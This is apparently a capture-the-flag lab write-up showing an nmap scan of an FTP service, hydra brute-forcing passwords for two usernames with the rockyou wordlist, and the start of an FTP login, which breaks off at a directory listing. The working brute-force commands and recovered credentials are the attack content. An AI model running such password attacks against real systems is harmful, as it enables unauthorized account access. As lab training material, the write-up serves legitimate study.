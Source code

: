 ```
Completed SYN Stealth Scan at 14:10, 0.22s elapsed (1 total ports)
Initiating Service scan at 14:10
Scanning 1 service on ip-10-10-216-66.eu-west-1.compute.internal (10.10.216.66)
Completed Service scan at 14:10, 0.01s elapsed (1 service on 1 host)
NSE: Script scanning 10.10.216.66.
Initiating NSE at 14:10
Completed NSE at 14:10, 0.00s elapsed
Initiating NSE at 14:10
Completed NSE at 14:10, 0.00s elapsed
Nmap scan report for ip-10-10-216-66.eu-west-1.compute.internal (10.10.216.66)
Host is up (0.00015s latency).

PORT      STATE SERVICE VERSION
10021/tcp open  ftp     vsftpd 3.0.3   !!!
MAC Address: 02:A8:58:77:DE:AB (Unknown)
Service Info: OS: Unix

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 1.18 seconds
           Raw packets sent: 3 (116B) | Rcvd: 3 (116B)

```

We learned two usernames using social engineering: `eddie` and `quinn`. What is the flag hidden in one of these two account files and accessible via FTP?
```
root@ip-10-10-153-80:~# hydra -l quinn -P /usr/share/wordlists/rockyou.txt ftp://10.10.216.66:10021   !!!
Hydra v8.6 (c) 2017 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (http://www.thc.org/thc-hydra) starting at 2024-08-04 14:45:04
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344398 login tries (l:1/p:14344398), ~896525 tries per task
[DATA] attacking ftp://10.10.216.66:10021/
[10021][ftp] host: 10.10.216.66   login: quinn   password: andrea   !!!
1 of 1 target successfully completed, 1 valid password found
Hydra (http://www.thc.org/thc-hydra) finished at 2024-08-04 14:45:17

root@ip-10-10-153-80:~# hydra -l eddie -P /usr/share/wordlists/rockyou.txt ftp://10.10.216.66:10021   !!!
Hydra v8.6 (c) 2017 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (http://www.thc.org/thc-hydra) starting at 2024-08-04 14:45:53
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344398 login tries (l:1/p:14344398), ~896525 tries per task
[DATA] attacking ftp://10.10.216.66:10021/
[10021][ftp] host: 10.10.216.66   login: eddie   password: jordan  !!!
1 of 1 target successfully completed, 1 valid password found
Hydra (http://www.thc.org/thc-hydra) finished at 2024-08-04 14:46:06


root@ip-10-10-153-80:~# ftp 10.10.216.66 10021  !!!
Connected to 10.10.216.66.
220 (vsFTPd 3.0.3)
Name (10.10.216.66:root): quinn   !!!
331 Please specify the password.
Password:                         !!!
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls                           !!!
```